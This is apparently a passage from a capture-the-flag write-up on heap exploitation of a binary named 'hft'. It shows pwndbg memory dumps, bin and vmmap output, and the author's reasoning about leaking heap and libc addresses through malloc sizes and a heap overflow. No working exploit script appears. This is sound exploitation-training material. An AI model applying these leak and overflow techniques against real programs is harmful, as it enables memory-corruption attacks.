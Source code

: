 ```bash
0x55555555a270  0x0000000000000000      0x0000000000000000      ................
0x55555555a280  0x0000000000000000      0x0000000000000000      ................
0x55555555a290  0x0000000000000000      0x0000000000000021      ........!.......
0x55555555a2a0  0x0000000000000018      0x0000000000000000      ................
0x55555555a2b0  0x4141414141414141      0x0000000000000021      AAAAAAAA!.......
0x55555555a2c0  0x0000000000000018      0x0000000000000001      ................
0x55555555a2d0  0x000055555555a2b0      0x0000000000000d11      ..UUUU..........         <-- unsortedbin[all][0]
0x55555555a2e0  0x00007ffff7facce0      0x00007ffff7facce0      ................
0x55555555a2f0  0x0000000000000000      0x0000000000000000      ................
0x55555555a300  0x0000000000000000      0x0000000000000000      ................
pwndbg> bins
~~~
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x55555555a2d0 —▸ 0x7ffff7facce0 ◂— 0x55555555a2d0
smallbins
empty
largebins
empty
```
It's unclear exactly, but it seems that there are probably some fd_nextsize from when it was sorted into 'largebins'.
Now that the heap address is available, it is possible to calculate and use the heap base address. 
Next, I want to leak the libc address, but it's difficult with the current functionality. Here, since only 'malloc' can be used, let's try to secure 0 or a huge number. 
Then, the area allocated when 'mallocing' '0x21299' was moved from the heap to the vicinity of libc.  
For '0x21298'
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/hft
~~~
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
    0x7ffff7d90000     0x7ffff7d93000 rw-p     3000      0 [anon_7ffff7d90]
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
~~~
```
For '0x21299' 
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/hft
~~~
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
    0x7ffff7d6e000     0x7ffff7d93000 rw-p    25000      0 [anon_7ffff7d6e]
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
~~~
```
I would be happy to see that address leaking could be achieved by cutting into the libc area with this behavior, but it was impossible because a new area would be secured if it was not enough at the time of 'malloc'.  
The only remaining method is to rewrite with a heap overflow, but since you only know the address of the heap, you can only destroy it.  
If you look for an address that you can break successfully, you will find some kind of heap address before libc.  
```
```